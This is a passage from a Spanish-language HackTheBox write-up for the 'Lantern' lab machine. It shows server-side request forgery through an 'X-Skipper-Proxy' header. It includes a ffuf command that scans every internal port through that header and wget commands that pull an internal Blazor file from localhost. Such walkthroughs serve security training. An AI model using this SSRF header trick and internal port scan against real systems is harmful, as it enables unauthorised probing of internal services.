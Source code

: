 a avido una conexion por lo que es vulnerable

si hacemos los mismo pero refernciando a la propia maquina por el puerto 3000 da un 200ok

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241204193340.png)

vemos que funciona con blazor

lo cual es interesante que podamos ver de esta forma la info. 
por lo que vamos a intentar ver si tiene mas puertos abiertos

aqui hay dos maneras o uno a uno manual mente o usar ffuf

```bash
ffuf -u http://lantern.htb -H "X-Skipper-Proxy: http://127.0.0.1:FUZZ" -w <(seq 1 65535) --mc 200
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241204194305.png)

perdonar que salga asi pero no se que le pasa a mi ffuf pero al caso salen 2 puertos nuevo
el 5000 y el 8000

si hacemos referencia a el 5000 vemos los siguiente

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241204195007.png)

al final del todo hace referncia un script javascript

al cual si intentamos acceder de forma normal/externa

```bash
wget http://lantern.htb/_framework/blazor.webassembly.js
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241204195316.png)

no nos deja pero sin embargo 
si lo hacemos de esta manera

```bash
wget --header "X-Skipper-Proxy: http://127.0.0.1:5000" http://lantern.htb/_framework/blazor.webassembly.js 
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241204195616.png)

si que emos podido

usando https://beautifier.io/ lo dejamos leguible y es larguisimo por lo que solo voy a poner la parte importante

```javascript
    class Ue {
        constructor(e, t) {
            this.bootConfig = e, this.applicationEnvironment = t
        }
        static async initAsync(e, t) {
            const n = void 0 !== e ? e("manifest", "blazor.boot.json", "_framework/blazor.boot.json", "") : a("_framework/blazor.boot.json"),
                r = n instanceof Promise ? await n : await a(null != n ? n : "_framework/blazor.boot.json"),
                o = t || r.headers.get("Blazor-Environment") || "Production",
                s = await r.json();
            return s.modifiableAssemblies = r.headers.get("DOTNET-MODIFIABLE-ASSEMBLIES"), s.aspnetCoreBrowserTools = r.headers.get("ASPNETCORE-BROWSER-TOOLS"), new Ue(s, o);
            async function a(e) {
                return fetch(e, {
                    method: "GET",
                    credentials: "include",
                    cache: "no-cache"
                })
```